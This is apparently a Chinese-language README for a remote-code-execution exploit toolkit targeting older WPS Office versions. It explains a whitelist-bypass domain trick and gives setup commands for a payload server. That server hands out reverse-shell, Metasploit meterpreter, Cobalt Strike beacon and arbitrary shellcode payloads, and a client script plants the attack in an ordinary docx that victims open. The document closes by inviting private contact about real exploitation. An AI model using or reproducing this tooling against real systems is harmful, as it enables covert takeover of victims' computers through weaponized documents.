 # WPS Office Rce

## 影响版本

* WPS Office 2023 个人版 < 11.1.0.15120
* WPS Office 2019 企业版 < 11.8.2.12085

## 漏洞介绍

### 什么是WebExtension

* Office 中的 WebExtension（通常称为 Office 插件或 Office 应用程序）是一种用于扩展 Microsoft Office 功能的技术。Office 插件使第三方开发者能够在 Office 应用程序中集成自己的服务和功能。这些插件采用跨平台的 Web 技术（如 HTML, CSS 和 JavaScript）开发，可以在不同的平台和设备上运行。

* 简单理解就是office内置了一个浏览器，可以解析`html/javascript/css`代码。

* 本次的漏洞，就是WPS在处理WebExtension时，未能正确的处理`javascript`代码，造成了溢出RCE。（可以参考之前chrome被爆出的RCE漏洞、微信 Windows 版 < 3.1.2.141存在RCE漏洞，比较类似）

### 漏洞利用限制

1.  购买`***wps.cn`的域名

* 既然是由WebExtension中的`javascript`造成的，那么就需要准备对应的html文件，WebExtension支持从第三方网站加载html，所以需要在公网开启web服务，用来共享html文件。

* 由于wps的限制，当我们加载第三方网站的html时，wps会进行提醒，大概如下面图片。

![Alt text](./assets/image-20230811152820721.png)

* 在WPS中，`wps.cn`的域名是在白名单中的，只要我们加载的资源在`wps.cn`的网站中，就不会有这个提示。但是我们是无法控制`wps.cn`的。
* 在WPS中，白名单检测存在漏洞，代码中可能使用了`http://.*?.wps.cn`的正则匹配，在这个匹配中，明显存在漏洞，我们只需要把html文件放在`http://hackwps.cn`的网站中，就可以绕过检测。
* 因此，想要利用这个漏洞，必须要购买一个域名，域名中只需要包含`wps.cn`即可，比如`hackerwps.cn`、`xxxwps.cn`。

2. 部署html文件到vps上，并且把域名绑定到vps

* 购买域名和vps后，需要把子域名 `clientweb.docer.wps.cn.***wps.cn`解析到购买的vps上，尽量套一层cdn，再使用nginx反向代理到搭建的服务上。（具体`域名/vps/cdn`可以自行学习部署。）
* 这里的子域名，必须为 `clientweb.docer.wps.cn.***wps.cn`，不然无法过白名单。

## 工具使用

* git clone项目

```
git clone https://github.com/ba0gu0/wps_rce
```

* 安装对应的依赖
* 程序需要使用`python3.8`以上的版本才能够正常运行。
* 程序只在`Mac/Linux`上进行了测试，Windows上运行出现问题，不再进行解答（自行找Linux虚拟机测试）。

```
cd wps_rce
pip install -r requirement.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
```
### 操作演示


https://github.com/ba0gu0/wps-rce/assets/19379443/b1d20c4b-a72f-4a95-9c80-10fc6ba4beff


### 服务端

* 服务端在`server`目录下的`main.py`, 此python脚本的作用是用来生成html代码，同时支持生成shell、msf、cs反弹的代码。

* 需要购买域名`***wps.cn`
* 需要购买vps
* 需要将域名`clientweb.docer.wps.cn.***wps.cn`解析到vps上
* 此处运行`main.py`时，监听端口为80端口，需要使用root权限。

```
cd server
python main.py
```

![image-20230811153226311](./assets/image-20230811153226311.png)

* 默认情况下，为了方便和域名绑定，服务监听端口为80端口。
* 如果想使用nginx/caddy进行反向代理，可以自行修改端口。

![image-20230811153844569](./assets/image-20230811153844569.png)

### 服务端功能

* 直接访问域名解析的地址，或者vps的端口

![image-20230811154049949](./assets/image-20230811154049949.png)

* 此服务端基于网上公开的poc进行开发，访问对应的地址，可以直接生成对应程序的利用代码。


* url对应cs和msf的payload列表

| url地址                     | 平台 | payload                                          |
| --------------------------- | ---- | ------------------------------------------------ |
| /calc                       | 无   | 执行calc命令                                     |
| /shell/1.1.1.1/9000         | all  | 服务器监听：nc -lnvp 9000                        |
| /msf/tcp/1.1.1.1/9000       | msf  | windows/meterpreter/reverse_tcp                  |
| /msf/http/1.1.1.1/80        | msf  | windows/meterpreter/reverse_http                 |
| /msf/https/1.1.1.1/443      | msf  | windows/meterpreter/reverse_https                |
| /cs/http/1.1.1.1/80         | cs   | Beacon http                                      |
| /cs/https/1.1.1.1/443       | cs   | Beacon https                                     |
| /shellcode/base64_shellcode | 无   | 任意的windows可用的shellcode，需要进行base64编码 |

* 比如在绑定域名的情况下，访问`https://clientweb.docer.wps.cn.***wps.cn/calc`, 就会生成弹计算器的攻击payload。

* 访问`https://clientweb.docer.wps.cn.***wps.cn/msf/1.1.1.1/4444`, 就会生成msf上线的payload。

![image-20230811154424873](./assets/image-20230811154424873.png)


### 客户端

* 客户端在`client`目录下的`main.py`, 此python脚本的作用是用来生成docx文件的。
* 需要提供一个正常的docx文件，攻击payload将被插入到此docx中。
* 需要根据上面搭建的服务端，提供url地址，类似于`https://clientweb.docer.wps.cn.***wps.cn/shell/1.1.1.1/9000`

```
cd client
python main.py ~/Downloads/temp.docx http://clientweb.docer.wps.cn.cloudwps.cn/shell/1.1.1.1/9000
```

![image-20230811152820733](./assets/image-20230811152820733.png)

#### 本地测试

* docx在利用的时候，需要购买`***wps.cn`的域名，如果没有域名，单纯的进行本地测试，可以修改电脑的hosts文件，手动绑定域名。
* 安装wps的有漏洞版本，修改hosts文件。
* 修改`C:\Windows\System32\drivers\etc\hosts`文件，添加`127.0.0.1    clientweb.docer.wps.cn.cloudwps.cn`（注意，此操作是为了方便本地测试，实际利用时必须购买域名。）
* 注意，上面添加的hosts文件中，`127.0.0.1`需要根据实际情况来填，此IP为运行的server端IP地址。如果server端就运行在本机，可以填`127.0.0.1`，如果运行在其他Linux服务器上，需要确认IP地址能否正常访问。
* 选择服务端payload，是弹计算器、反弹shell、反弹msf还是反弹cs。
* 如果反弹shell，则生成url，`http://clientweb.docer.wps.cn.cloudwps.cn/shell/1.1.1.1/9000`，此处的`1.1.1.1`需要修改为运行nc命令的服务器的IP，此处的IP也可以使用域名。9000需要改为nc监听的端口。（注意，此处的IP和nc是单独的，就是为了接受shell，省事的话，可以直接用运行服务端的服务器去运行。）
* 使用客户端命令生成攻击docx文件，`python main.py ~/Downloads/temp.docx http://clientweb.docer.wps.cn.cloudwps.cn/shell/1.1.1.1/9000`
* 将生成的`wps_office_rce_***.docx`文件，复制到安装wps的电脑，直接双击打开之前在客户端中。

## 实际利用

* 先买域名吧，有域名可以私聊沟通。
